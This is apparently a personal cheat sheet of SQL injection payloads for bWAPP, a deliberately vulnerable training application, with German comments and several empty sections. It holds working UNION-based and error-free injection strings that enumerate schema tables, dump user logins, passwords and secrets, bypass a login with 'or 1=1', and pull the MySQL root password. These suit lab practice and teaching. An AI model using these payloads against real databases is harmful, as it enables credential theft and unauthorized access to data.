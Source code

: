 ##### SQL Injection (POST/Search)
~~~~SQL
/bWAPP/sqli_6.php

a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;-- 
~~~~

---
##### SQL Injection (POST/Select)
~~~SQL
movie=1 UNION ALL SELECT table_schema, table_name, null, null, null, null, null FROM information_schema.tables LIMIT 1 OFFSET 1;--

a%' UNION ALL SELECT 1, column_name, null, null, null, null, null from information_schema.columns where table_name="users";--

blah%' union all select 1,login,password,email,secret,1, 1 from users --

~~~


---
##### SQL Injection (AJAX/JSON/jQuery)
---
##### SQL Injection (CAPTCHA)
---
##### SQL Injection (Login Form/Hero)
~~~SQL
ok' or 1=1-- 
~~~
---
##### SQL Injection (Login Form/User)
---
##### SQL Injection (SQLite)
~~~SQL
a%' UNION ALL SELECT 1,sqlite_version(),1,1,1,1; --
~~~


---
##### SQL Injection (Drupal)
---
##### SQL Injection - Stored (Blog)
~~~
--Hier sollte am ende ein Leerzeichen stehen!
asdf',(SELECT database()  ))-- 
~~~
Tabellen nach einander auswerten:
~~~
asdf',(SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'bWAPP' LIMIT 0,1  ))-- 
asdf',(SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'bWAPP' LIMIT 1,1  ))-- 
~~~
~~~
asdf',(select password from mysql.user where user='root' ))-- 
~~~

---